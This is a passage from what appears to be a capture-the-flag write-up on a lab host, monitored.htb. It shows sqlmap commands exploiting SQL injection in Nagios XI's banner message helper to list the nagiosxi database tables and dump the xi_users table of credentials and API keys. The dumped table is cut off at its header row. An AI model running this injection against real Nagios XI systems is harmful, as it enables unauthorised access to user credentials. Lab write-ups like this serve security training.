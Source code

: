 The interesting one is `nagiosxi`, which has 22 tables:

```

oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 -D nagiosxi --tables
...[snip]...
Database: nagiosxi
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+
...[snip]...

```

I’ll dump the `xi_users` table:

```

oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 -D nagiosxi -T xi_users --dump
...[snip]...
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
| user_id | email               | name                 | api_key                                                          | enabled | password                                                     | username    | created_by | last_login | api_enabled | last_edited | created_time | last_attempt | backend_ticket                                                   | last_edited_by | login_attempts | last_password_change |
+---------+---------------------+----------------------+------------------------------------------------------------------+---------+--------------------------------------------------------------+-------------+------------+------------+-------------+-------------+--------------+--------------+------------------------------------------------------------------+----------------+----------------+----------------------+
```